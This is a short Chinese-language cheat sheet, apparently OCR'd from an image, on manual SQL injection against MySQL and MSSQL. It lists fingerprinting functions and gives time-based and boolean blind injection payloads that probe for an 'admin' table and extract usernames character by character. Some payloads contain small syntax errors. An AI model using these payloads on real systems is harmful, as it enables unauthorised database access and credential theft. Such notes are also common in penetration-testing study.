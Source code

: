 ## 注入   
常用函数：
version() 数据库版本
@@datadir 数据库路径
@@version_compile_os
user()
database() 数据库名称
system_user() 系统用户名
current_user() 当前用户名
session_user() 连接数据库的用户名
floor() 取整
rand() 随机0-1
concat("abc","123")=abc123
concat("abc",0x22,"123")=abc"123

### 手工注入 
#### 延时注入
select sleep(if(length(@@version)=6,2,0));
长度为6 sleep 2秒，否则0秒。
select sleep(if(ord(mid((select user()),1,1))<150,0,2));
> and exists(select * from admin) 
>  // 说明存在表明


----------


> admin and exists(select admin from admin) 
> // 说明存在admin列
> 


----------


and (select length(username) from admin limit 1)>0 
 //猜解数据库列名长度：修改后面的>0是猜解长度 


----------

and (select top 1 ascii(substring(username 1,1)) from admin)>0 
//猜解内容：猜解出的内容需对应ASCII表,ascii、substring为MySQL的函数，MsSQL略有不同

----------

----------


> group_concat()

函数让检索出来的语句以行的形式显示。如果不用这个函数，就不会看到输出结果。 

  


----------
